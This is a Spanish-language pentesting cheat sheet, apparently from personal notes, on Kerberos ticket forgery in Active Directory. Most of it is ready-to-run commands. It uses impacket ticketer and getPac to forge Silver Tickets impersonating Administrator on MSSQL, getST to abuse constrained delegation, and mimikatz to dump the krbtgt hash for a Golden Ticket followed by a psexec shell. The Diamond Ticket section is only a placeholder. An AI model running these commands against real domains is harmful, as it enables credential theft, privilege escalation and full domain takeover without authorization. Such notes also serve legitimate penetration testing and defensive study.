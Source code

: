 ## Silver Ticket

Tenemos credenciales de usuarios pero no nos podemos conectar a **MSSQL**? Bueno, no pasa nada, impersonaremos a `Administrator`:

```shell
impacket-getPac <DOMINIO>/<USUARIO>:<CONTRASEÑA> -targetUser <USUARIO_OBJETIVO> | grep SID
```

Ahora convertiremos la contraseña a un hash NT:

```shell
echo -n <CONTRASEÑA> | iconv -t utf16le | openssl md4
```

Y ahora con `ticketer` construimos el ticket:

```shell
impacket-ticketer -nthash <NT_HASH> -domain-sid <SID> -domain <DOMINIO> -dc-ip <HOSTNAME>.<DOMINIO> -spn <SPN>/<HOSTNAME>.<DOMINIO> Administrator
```

Después exportamos la variable `KRB5CCNAME`:

```shell
export KRB5CCNAME='Administrator.ccache'
```

Y nos conectamos a **MSSQL**:

```shell
impacket-mssqlclient <HOSTNAME>.<DOMINIO> -k
```

Cabe destacar que aquí usamos **MSSQL** como ejemplo pero se puede utilizar cualquier otro servicio que corra en el **AP** (Application Server).
En resumen para generar un **TGS** gracias al Silver Ticket Attack, necesitamos los siguientes tres valores:
- NTML Hash
- Domain SID
- SPN

![[Pasted image 20230716125719.png]]

Otra forma es que si vemos que tenemos `AllowDelegateToX` (X = spn) podemos hacer lo siguiente:

![[Pasted image 20230730001147.png]]

```shell
impacket-getST -spn <SPN>/<HOSTNAME>.<DOMINIO> -hashes :<HASH_NT> -impersonate administrator -dc-ip <IP> <DOMINIO>/'<USUARIO>'
```

## Golden Ticket

Para realizar este ataque necesitamos el SID y el NT hash del usuario `krbtgt`. Estos los podemos conseguir con `mimikatz` con el comando `lsadump::lsa /inject /name:krbtgt`. Ahora usamos `ticketer` para obtener un archivo `.ccache`, el cuál luego exportaremos como variable `KRB5CCNAME`:

```shell
ticketer.py -nthash <HASH-NT> -domain-sid <SID> -domain <DOMINIO> '<USUARIO-A-IMPERSONAR>'
```

Esto nos generará un archivo `.ccache`, el cuál exportamos:

```shell
export KRB5CCNAME='/path/to/ccache/file.ccache'
```

Ahora, si hemos impersonado al usuario Administrator, usamos `impacket-psexec` para conectarnos:

```shell
psexec.py -n -k <DOMINIO>/Administrator@<IP> cmd.exe
```

## Diamond Ticket

Pronto añadiré esto ;D